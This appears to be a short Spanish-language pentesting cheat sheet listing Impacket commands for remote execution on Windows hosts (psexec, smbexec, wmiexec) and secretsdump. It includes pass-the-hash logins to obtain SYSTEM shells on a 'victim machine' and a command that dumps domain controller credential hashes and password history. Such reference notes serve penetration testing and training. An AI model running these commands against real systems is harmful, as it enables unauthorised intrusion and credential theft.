 # Psexec

Tags: #Windows #DC #PsExec #WmiExec #SmbExec #Impacket 

```bash 
- Puerto 445 (SMB): Necesario para la ejecución remota de comandos utilizando el protocolo SMB.
- Puerto 135 (RPC): Puede ser necesario para la autenticación remota y la gestión de las conexiones.
```

## Impacket-Psexec

```powershell
# Ingresar con una consola 'CMD' al usuario 'NT Authority\System'
❯ impacket-psexec domain.corp/Administrator:Password@IP cmd.exe     
❯ impacket-psexec domain.corp/Administrator@IP cmd.exe 

❯ impacket-psexec administrator@IP cmd.exe      

	# user = Usuario Administrator'
	# IP = Dirección IP de la maquina víctima 
	# cmd = Ejecuta una consola 'CMD' al ingresar

❯ impacket-psexec domain.corp/'Administrator'@IP -hashes HASH :NT    # Hacer 'PtH' e ingresar a un 'CMD'
```

## Impacket-Smbexec

```bash 
❯ impacket-smbexec.py administrator@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como 'NT Authority\System'
```

## Impacket-Wmiexec 

```bash 
Otra herramienta por si no funcion 'PsExec'
❯ impacket-wmiexec.py administrator@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como usuario admin 
```

## Impacket-SecretDump

```bash 
❯ impacket-secretdump -just-dc <Domain>/<User>:<Passwd>@<IP> -history -pwd-last-set   # Muestra el historial y cuando fue configurada la última contraseña
```